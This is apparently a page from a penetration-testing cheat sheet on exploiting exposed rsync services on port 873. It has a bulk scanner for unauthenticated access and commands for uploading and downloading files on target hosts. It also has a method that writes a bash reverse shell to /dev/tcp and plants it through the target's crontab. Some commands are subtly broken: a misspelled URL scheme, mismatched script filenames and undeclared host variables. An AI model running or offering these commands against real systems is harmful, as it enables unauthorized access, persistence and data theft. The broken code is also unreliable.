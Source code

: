 # 873 - Rsync

## Potential Risks

### Unauthorized Access

```bash
# RHOST=remoteHost; RPORT=873
rsync rsyns://$RHOST:$RPORT

# Bulk testing
# RHOST_LIST=hosts.txt
run() {
    while IFS= read -r LINE
    do
        if [[ "$LINE" == *":"* ]]; then
            RHOST=${LINE%%:*}
            RPORT=${LINE#*:}
        else
            RHOST=$LINE
            RPORT=873
        fi
        if [[ -n "$(sshpass -p '' rsync rsync://$RHOST:$RPORT 2>/dev/null)" ]]; then
            echo "[SUCCESS] rsync://$RHOST:$RPORT"
        fi
    done < "$RHOST_LIST"
}
run | awk -F '//' '{print $2}'
```

## Exploitation

### Upload File

#### Method 1: Regular upload files

```bash
# RHOST=remoteHost; RPORT=873
rsync -av /path/to/localFile rsync://$RHOST:$RPORT/path/to/remoteFile
```

#### Method 2: Upload crontab to reverse shell

```bash
# RHOST=remoteHost; RPORT=873
# EHOST=evilHost; EPORT=6789

# Method 1: Modify the `crontab` of the remote server
# Step 1: Download the `crontab` of the remote server
# Step 2: Added reverse shell task
# Step 3: Upload the evil 'crontab'

# Method 2: Added the `crontab` of the remote server
# Step 1: Create evil `crontab`
# Step 2: Upload the evil 'crontab'
```

For more information, please refer to page [OOB > Reverse Shell](../../one-page-for-subject/out-of-band-technology.md#reverse-shell).

#### Method 3: Upload the executable reverse shell file and add crontab to execute

```bash
# RHOST=remoteHost; RPORT=873
# EHOST=evilHost; EPORT=6789

# Step 1: Create a reverse shell script and add executable permissions
echo "#\!/bin/bash\n/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1" > /tmp/santa_revs.sh
chmod +x /tmp/santaclaus_revs.sh
# Step 2: Upload reverse shell script
rsync -av /tmp/santaclaus_revs.sh rsync://$RHOST:$RPORT/src/tmp/santaclaus_revs.sh
# Step 3: Download and modify the target server crontab
# Step 4: Upload evil crontab
```

For more information, please refer to page [OOB > Reverse Shell](../../one-page-for-subject/out-of-band-technology.md#reverse-shell).

### Download File

```bash
# RHOST=remoteHost; RPORT=873
rsync -av rsync://$RHOST:$RPORT/path/to/remoteFile /path/to/localFile
```
